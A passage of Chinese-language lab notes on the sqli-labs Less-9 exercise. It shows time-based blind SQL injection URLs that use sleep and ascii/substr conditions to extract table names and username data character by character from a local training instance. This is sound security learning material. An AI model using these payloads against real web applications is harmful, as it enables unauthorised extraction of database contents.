    ```sql
   http://localhost:7036/sqli-labs/Less-9/
   ?id=1' and if((ascii(substr((select table_name from 
   information_schema.tables where 
   table_schema=database() limit 0,1),1,1))=101),sleep(2),1) -- s  #(e)
                            ||    ||
                         第1个表  第一个字符
   
   http://localhost:7036/sqli-labs/Less-9/
   ?id=1' and if((ascii(substr((select table_name from 
   information_schema.tables where 
   table_schema=database() limit 0,1),2,1))=101),sleep(2),1) -- s  #(m)
   
   ...  ...
   直到找到所有表以及表名   或者想要的用户表
   ```

6. 找到想要的表以及字段（方法同上）后，获取内容
   
   ```sql
   users表为例  字段为username  数据为Dumb
   #判断数据长度
   http://localhost:7036/sqli-labs/Less-9/
   ?id=1' and if((length((select username 
   from users limit 0,1))=4),sleep(2),1) -- s
   #limit 0,1 表示第1条数据
   #limit 1,1 表示第2条数据
   ... ...
   
   #判断内容
   http://localhost:7036/sqli-labs/Less-9/
   ?id=1' and if((ASCII(substr((select username from 
   users limit 0,1),1,1))=68),sleep(2),1) -- s
                ||
               第一个字符=68  =》D   
   ... ...
   依此类推 第一条数据为  Dumb
   直到判断出username字段所有数据
   ```
